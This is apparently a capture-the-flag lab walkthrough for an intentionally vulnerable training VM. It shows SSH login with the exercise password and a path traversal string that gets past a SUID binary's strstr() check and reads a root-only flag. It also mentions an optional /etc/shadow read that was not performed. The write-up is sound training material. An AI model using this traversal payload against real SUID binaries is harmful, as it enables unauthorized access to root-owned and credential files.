





# M5 NIGCL Archive — Red Team Walkthrough

**Environment:** Authorized Range4 training lab, Ubuntu 22.04.5, `nigcl-archive` (`192.168.222.134`), Kali attacker `192.168.222.128`.  
**Vulnerability:** SUID binary path traversal due to string-substring validation (`strstr()`).  
**MITRE ATT&CK:** T1548.001 (Setuid and Setgid).  
**Outcome:** Flag 5 retrieved. All observations are from 23 October 2026.

## 1. Authenticate over SSH as archivist

```bash
ssh archivist@192.168.222.134
# Password supplied in the exercise: Arch1v1st@99
whoami
hostname
id
```

**Observed:** `archivist`, `nigcl-archive`, `uid=1001(archivist) gid=1001(archivist)`.



*Evidence: `M5-RED-01-SSH-Authentication.png`*

## 2. Read the local challenge hint

```bash
cat ~/README.txt
```

**Observed:** Archive Server README instructs using `safereader /opt/classified/contract_summary.txt`, states only `/opt/classified/` documents are accessible, and lists `archive-admin@nigcl.internal` as contact.



*Evidence: `M5-RED-02-Challenge-Hint.png`*

## 3. Inspect the SUID reader

```bash
ls -la /usr/local/bin/safereader
```

**Observed:** `-rwsr-xr-x 1 root root 16416 ... /usr/local/bin/safereader`; SUID bit set for a root-owned executable.



*Evidence: `M5-RED-03-SUID-Binary-Inspection.png`*

## 4. Verify intended document access

```bash
safereader /opt/classified/contract_summary.txt
```

**Observed:** Contract summary containing three contract records; legitimate read succeeded.



*Evidence: `M5-RED-04-Legitimate-Document-Access.png`*

## 5. Understand path validation and retrieve Flag 5

**Root cause, per repository:** substring matching (`strstr()`) accepts a pathname containing `/opt/classified/` without enforcing the final resolved pathname. Filesystem traversal (`..`) escapes the permitted directory, and SUID allows the binary to open root-only files.

```bash
safereader "/opt/classified/../../../root/flag5.txt"
```

**Observed output:** `FLAG{42eab633e0ebb393_suid_nigcl_final}`.



*Evidence: `M5-RED-05-Path-Traversal-Flag-Retrieval.png`*

## 6. Optional repository bonus — not performed

The source walkthrough includes an optional `/etc/shadow` read. **Not executed or evidenced in this session**; no screenshot is supplied.

## Result and scope

**Completed:** SSH, hint, SUID inspection, authorized read, traversal bypass, and final flag. This exercise was performed against the local intentionally vulnerable Range4 VM only. **No remediation was applied** to preserve the challenge for training.

## Source

- https://github.com/hacktifytechnologies/Range4/blob/main/machines/M5-nigcl-archive/solve_red.md
